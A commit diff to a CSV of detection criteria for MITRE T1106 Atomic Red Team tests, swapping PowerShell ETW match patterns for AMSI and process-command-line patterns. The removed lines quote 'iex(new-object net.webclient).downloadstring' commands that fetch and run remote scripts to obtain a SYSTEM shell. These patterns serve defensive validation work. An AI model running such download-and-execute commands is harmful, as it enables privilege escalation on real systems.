

Before and after one commit to secureworks/atomic-validation-criteria, a CSV file: windows/T1106.csv, drawn as a sheet.

Commit message:
T1106 update validation criteria

```diff
--- a/windows/T1106.csv
+++ b/windows/T1106.csv
@@ -3,18 +3,11 @@ ARG,source_file,PathToAtomicsFolder\T1106\src\CreateProcess.cs
 ARG,output_file,%tmp%\T1106.exe
-_E_,Process,cmdline*=.*csc.exe /out:.*T1106.exe /target:exe .*T1106.*src.*CreateProcess.cs
-_E_,Process,cmdline~=T1106.exe
+_E_,Process,cmdline~=C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:,cmdline~=T1106.exe /target:exe,cmdline~=atomics/T1106/src/CreateProcess.cs
 
 T1106,windows,ce4e76e6,WinPwn - Get SYSTEM shell - Pop System Shell using CreateProcess technique
-_E_,ETW,chan_name~=Microsoft-Windows-PowerShell
-_E_,ETW,event_msg~=Creating Scriptblock text
-_E_,ETW,event_data_list~=iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystem.ps1')
+_E_,AMSI,scan_content~=[DllImport("kernel32.dll",scan_content~=static extern bool CreateProcess
 
 T1106,windows,7ec5b74e,WinPwn - Get SYSTEM shell - Bind System Shell using CreateProcess technique
-_E_,ETW,chan_name~=Microsoft-Windows-PowerShell
-_E_,ETW,event_msg~=Creating Scriptblock text
-_E_,ETW,event_data_list~=iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/CreateProcess/Get-CreateProcessSystemBind.ps1')
+_E_,AMSI,scan_content~=[DllImport("kernel32.dll",scan_content~=static extern bool CreateProcess
 
 T1106,windows,e1f93a06,WinPwn - Get SYSTEM shell - Pop System Shell using NamedPipe Impersonation technique
-_E_,ETW,chan_name~=Microsoft-Windows-PowerShell
-_E_,ETW,event_msg~=Creating Scriptblock text
-_E_,ETW,event_data_list~=iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/NamedPipe/NamedPipeSystem.ps1')
+_E_,AMSI,scan_content~=[DllImport("kernel32.dll",scan_content~=static extern bool CreateProcess
```
